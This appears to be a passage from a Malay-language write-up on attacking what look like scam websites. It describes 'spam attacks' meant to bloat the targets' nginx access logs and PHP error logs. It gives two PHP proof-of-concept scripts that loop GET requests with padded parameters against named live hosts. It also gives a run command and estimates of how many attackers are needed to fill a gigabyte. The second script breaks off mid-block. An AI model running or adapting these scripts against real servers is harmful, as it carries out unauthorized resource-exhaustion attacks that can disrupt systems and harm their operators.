 ## 9.2 Spam Attack Access Logs
Secara teorinya setiap request yang dilakukan dari website, server nginx akan menyimpan log yang dikenali sebagai `access_logs`. Mungkin kita boleh bangunkan satu code yang ringkas untuk sentiasa access website tersebut dengan `GET` requestt yang panjang agar log server mereka menjadi file yang besar.

**Proof-of-Concept logic code (in PHP):**
Kami memilih untuk menggunakan URL `https://ms5hf7.cn/j/ntb.php?c=7-eleven-my&m=7-eleven-my-m&tg=7-eleven-my&ln=7-eleven-my&vb=7-eleven-my&_t=1680754874449` URL ini menerima apa-apa sahaja data yang dihantar melalui `GET` method diatas dan data yang dipulangkan "response" tidak terlalu besar. 

```
<?php
//Boleh dibesarkan
$packet = "1234567890abcdefghijklmnopzrstuvwxyz";

//Jumlah lebih kurang 245-300 byte dalam access logs
$url = "https://ms5hf7.cn/j/ntb.php?c=$packet&m=$packet&tg=$packet&ln=$packet&vb=$packet&_t=$packet";

$n = 1;

while(true){
	$res = file_get_contents($url);
	
	if(!$res){
		echo "Terputus pada: " . $n . " serangan";
	}
}
```

Cara run: `php attack-spam.php`

Purata masa untuk setiap satu request adalah 900ms. Jika kita berjaya untuk run code ini tanpa henti selama 1 jam, ini bermakna kita telah spam storage server mereka sebanyak 120Kb bagi setiap satu attacker. Untuk mencapai serangan 1GB, makan memerlukan serangan dilakukan oleh sekurang-kurangnya 800-1000 attacker.

## 9.3 Spam Attack Error Log
Error pula adalah log yang disimpan oleh PHP sendiri jika terdapat sebarang ralat pada coded. Berdasarkan URL yang didapati dari proses Footprinting, ada beberapa URL yang memaparkan PHP error. Antaranya adalah `http://w.batterypropel.cyou/f6a0ZFJBA3dVckIBQmsEXkBxU1ZAWFARDWQGWX0IGV0IDTpDV0l-BxUgMVw8BEkgOkwbF24tSAEpYgNkIA&p='&_wi` yang mana paramater `p` dan `_wi` boleh digunakan untuk spam attack `access_log`.

```
<?php
//Nilainnya dibesarkan kerana parameternya hanya dua
$packet = 	"1234567890abcdefghijklmnopzrstuvwxyz" . 
			"1234567890abcdefghijklmnopzrstuvwxyz" .
			"1234567890abcdefghijklmnopzrstuvwxyz" .
			"1234567890abcdefghijklmnopzrstuvwxyz" .
			"1234567890abcdefghijklmnopzrstuvwxyz";

//Jumlah lebih kurang 500-600 byte dalam access logs
//Jumlah lebih kurang 150 byte dalam error logs
$url = "http://w.batterypropel.cyou/f6a0ZFJBA3dVckIBQmsEXkBxU1ZAWFARDWQGWX0IGV0IDTpDV0l-BxUgMVw8BEkgOkwbF24tSAEpYgNkIA&p=$packet&_wi=$packet";

$n = 1;
while(true){
	$res = file_get_contents($url);
	
	if(!$res){
		echo "Terputus pada: " . $n . " serangan";
```